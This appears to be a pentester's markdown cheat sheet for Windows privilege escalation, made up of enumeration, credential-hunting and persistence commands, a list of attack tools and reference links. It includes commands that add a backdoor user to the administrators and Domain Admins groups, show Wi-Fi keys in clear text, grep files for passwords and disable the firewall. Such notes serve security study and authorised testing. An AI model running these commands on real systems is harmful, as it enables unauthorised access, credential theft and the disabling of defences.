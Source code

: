 #### Creating an account
```
- net user name Username12345678* /add /Y
- net localgroup administrators name /add
- net localgroup "Remote Desktop Users" name /add #access RDP
- net localgroup "Backup Operators" name /add #full acceess to files
- net group "Domain Admins" name /add /domain
- net user name /ACTIVE:YES /domain` #enables domain user account
```

#### System Enum
```
- systeminfo
- systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
- hostname
- wmic qfe
- wmic qfe get Caption,Description,HotFixID,InstalledOn
- wmic logicaldisk get caption,description,providername
- whoami /priv
- whoami /groups
- net user babis
- net localgroup
- net localgroup administrators
- C:\Program Files
  - search for vulns in all installed software
- sc start
- sc stop
```

#### Network Enum
```
- ipconfig /all
- netstat -ano #listening ports
- route print #routing table
- arp -a
- Netsh wlan show profile
- Netsh wlan show profile <SSID> key=clear

```

#### Passwords
```
- findstr /si password *.txt
- findstr /si password *.txt *.config *.ini
```

#### AV Enum
```
- sc query windefend
- sc queryex type= service
- netsh advfirewall firewall dump
- netsh firewall show state
- netsh firewall show config
- netsh firewall set opmode mode=disable
- netsh advfirewall firewall set opmode mode=disable

```
#### Tools
```
- PowerUp
  - powershell -ep bypass
  - import powerup
  - ..\PowerUp.ps1
  - then:
  - invoke-AllChecks
  - let this run
- WinPEAS
- Windows-exploit-suggester.py
- Bloodhound
- crackmapexec/netexec
  - SMB relay, Kerberoasting, ASREP Roasting
  - hash passing
- Impacket all - secrets.py
- Mitm6
- mimikatz
- ldapdomaindump
- Responder
- PEASS-ng
```

#### Unquoted service paths
```
CMD line
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\" |findstr /i /v """
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """

PowerShell
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```

#### AlwaysInstallElevated
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

#### Sites:
- [LOLBAS](https://lolbas-project.github.io/#)
  - GTFObins of windows
- [hacktricks](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [Absolomb](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

